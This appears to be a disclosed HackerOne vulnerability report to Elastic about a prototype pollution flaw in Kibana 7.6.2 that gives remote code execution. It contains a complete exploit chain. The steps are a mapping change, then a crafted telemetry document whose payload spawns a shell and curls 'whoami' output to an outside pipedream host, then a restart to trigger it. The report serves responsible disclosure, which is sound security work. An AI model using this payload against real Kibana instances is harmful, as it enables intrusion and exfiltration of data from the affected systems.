 # Remote Code Execution on Cloud via latest Kibana 7.6.2

## Report Details
- **Report ID**: 852613
- **URL**: https://hackerone.com/reports/852613
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-17T22:49:58.303Z
- **Disclosed**: 2020-07-28T19:45:35.016Z

## Reporter
- **Username**: alexbrasetvik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
**Summary:** A prototype pollution in Kibana can be used to gain remote code execution.

**Description:**

There is a prototype pollution bug in the upgrade assistant's telemetry collector, via a dangerous usage of `_.set`: https://github.com/elastic/kibana/blob/master/x-pack/plugins/upgrade_assistant/server/lib/telemetry/usage_collector.ts#L93

We can pollute the prototype by providing a specially crafted "upgrade-assistant-telemetry" "saved object".

The attached video provides a walkthrough. There is a bit of waiting involved at one point, I included the entire thing for completeness with a hint of when you can fast forward :) 

## Steps To Reproduce:

The following assumes an otherwise empty Kibana. If any steps breaks Kibana, you can `DELETE /.kibana*` and restart it to get going again.

  1. Update the kibana mappings so we can provide our "upgrade-assistant-telemetry" document. It's important to provide the full mapping and not just do a dynamic one, or Kibana can refuse to start up due to err-ing when validating mappings

```
PUT /.kibana_1/_mappings
{
  "properties": {
    "upgrade-assistant-telemetry": {
      "properties": {
        "constructor": {
          "properties": {
            "prototype": {
              "properties": {
                "sourceURL": {
                  "type": "text",
                  "fields": {
                    "keyword": {
                      "type": "keyword",
                      "ignore_above": 256
                    }
                  }
                }
              }
            }
          }
        },
        "features": {
          "properties": {
            "deprecation_logging": {
              "properties": {
                "enabled": {
                  "type": "boolean",
                  "null_value": true
                }
              }
            }
          }
        },
        "ui_open": {
          "properties": {
            "cluster": {
              "type": "long",
              "null_value": 0
            },
            "indices": {
              "type": "long",
              "null_value": 0
            },
            "overview": {
              "type": "long",
              "null_value": 0
            }
          }
        },
        "ui_reindex": {
          "properties": {
            "close": {
              "type": "long",
              "null_value": 0
            },
            "open": {
              "type": "long",
              "null_value": 0
            },
            "start": {
              "type": "long",
              "null_value": 0
            },
            "stop": {
              "type": "long",
              "null_value": 0
            }
          }
        }
      }
    }
  }
}
```

  2. With the mapping ready, we can index our own telemetry status doc:

```
PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
{
    "upgrade-assistant-telemetry" : {
      "ui_open.overview" : 1,
      "ui_open.cluster" : 1,
      "ui_open.indices" : 1,
      "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('whoami | curl https://enba5g2t13nue.x.pipedream.net/ -d@-')"
    },
    "type" : "upgrade-assistant-telemetry",
    "updated_at" : "2020-04-17T20:47:40.800Z"
  }
```

The payload pollutes the prototype, which in turn injects Javascript that spawns a shell process, in this case `whoami | curl https://enba5g2t13nue.x.pipedream.net/ -d@-`

  3. Wait until collection happens again, or just restart Kibana. In the video I restart Kibana, which you can do via the cloud console. Go to `https://cloud.elastic.co/deployments/[your id]/kibana` and click "Force Restart".

  4. Kibana will take about a minute to start. Soon after starting, it'll do a telemetry collection run, that'll cause the above code to be injected and that will run the shell code.

Kibana will likely keep starting, run this, crash then restart. I cleaned up my deployment so it's not in a crash-restart loop.

## Impact

Any cloud user can get remote code execution, as can any on-prem Kibana user that has x-pack installed.

## Supporting Material/References:

The attached video recording walks through the entire attack chain.

## Impact

Any cloud user can get remote code execution, as can any on-prem Kibana user that has x-pack installed.

## Attachments
- Cloud_RCE__Kibana_7.6.2.mp4

